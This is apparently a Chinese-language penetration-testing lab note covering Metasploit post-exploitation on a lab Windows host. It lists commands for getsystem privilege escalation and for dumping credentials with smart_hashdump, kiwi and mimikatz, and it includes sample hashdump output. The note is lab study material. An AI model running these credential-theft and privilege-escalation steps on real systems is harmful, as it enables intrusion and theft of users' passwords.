 ​`post/multi/recon/local_exploit_suggester`​ 是一个 Metasploit 模块，用于在目标主机上进行本地漏洞探测

​![image](http://127.0.0.1:6806/assets/image-20231211203259-bkrutbm.png)​

## 提权

```text
getuid查看服务器权限
getsystem 提权
getuid 查看是否提权成功
```

​![image](http://127.0.0.1:6806/assets/image-20231211203418-a08ryne.png)​

可以看到最开始时是Administrator权限，提权至System权限

## 获取域用户的密码信息

```text
以下3种都可尝试
1.run post/windows/gather/smart_hashdump
2.加载 kiwi模块
load kiwi     加载kiwi模块
creds_all    列出所有凭据
3.加载mimikatz模块
Windows10/2012 以下的版本可以直接抓取明文密码
	再尝试加载 mimikatz 模块，加载模块前需要先将meterpreter迁移到64位的进程，
	而且该进程也需要 是system权限运行的。 
	ps 查看进程
migrate PID 
load mimikatz 
mimikatz_command -f sekurlsa::searchPasswords
```

### 账号hash

​![image](http://127.0.0.1:6806/assets/image-20231211210404-4l5lud0.png)​

```text
meterpreter > run post/windows/gather/smart_hashdump

[*] Running module against STU1
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /root/.msf4/loot/20231211210329_default_192.168.177.144_windows.hashes_183335.txt
[*] Dumping password hashes...
[*] Running as SYSTEM extracting hashes from registry
[*]     Obtaining the boot key...
[*]     Calculating the hboot key using SYSKEY fd4639f4e27c79683ae9fee56b44393f...
[*]     Obtaining the user list and keys...
[*]     Decrypting user keys...
[*]     Dumping password hints...
[*]     No users with password hints on this system
[*]     Dumping password hashes...
[+]     Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+]     liukaifeng01:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

